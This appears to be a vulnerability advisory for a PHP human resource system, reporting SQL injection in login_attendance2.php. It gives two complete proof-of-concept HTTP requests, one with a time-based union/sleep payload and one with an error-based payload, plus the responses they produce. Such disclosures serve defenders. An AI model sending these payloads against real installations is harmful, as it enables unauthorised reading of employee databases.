

# Human Resource Integrated System has SQL Injection in login_attendance2.php

## supplier 

https://code-projects.org/human-resource-integrated-system-in-php-with-source-code/

## Vulnerability file

login_attendance2.php

## Describe

The `employee_id` and `date` parameters in login_attendance2.php are not properly sanitized or parameterized, making them vulnerable to SQL injection. An attacker could exploit this vulnerability by injecting malicious SQL code to manipulate database queries. An attacker could leverage a time-based SQL injection method and a error-based SQL injection method.




## POC

```
POST /login_attendance2.php HTTP/1.1
Host: hris
Content-Length: 115
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

save=1&date=16&employee_id=-1'+union+select+1,1,1,1,1,1,1,1,1,1,1,1,sleep(5)--+
```

Send this request, you can observe an additional 5 seconds time delay triggered by the time-based injection.

```
POST /login_attendance2.php HTTP/1.1
Host: hris
Content-Length: 223
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

save=1&date=16&employee_id=1'+AND+ROW(4299,6410)>(SELECT+COUNT(*),CONCAT(0x716b7a6a71,md5(7532159),0x7178707871,FLOOR(RAND(0)*2))x+FROM+(SELECT+6706+UNION+SELECT+9128+UNION+SELECT+8419+UNION+SELECT+3737)a+GROUP+BY+x)--+mJWV
```

Send this request and you can see `0cd4c262f991e8380746a7f98e6e4b20` in the response body.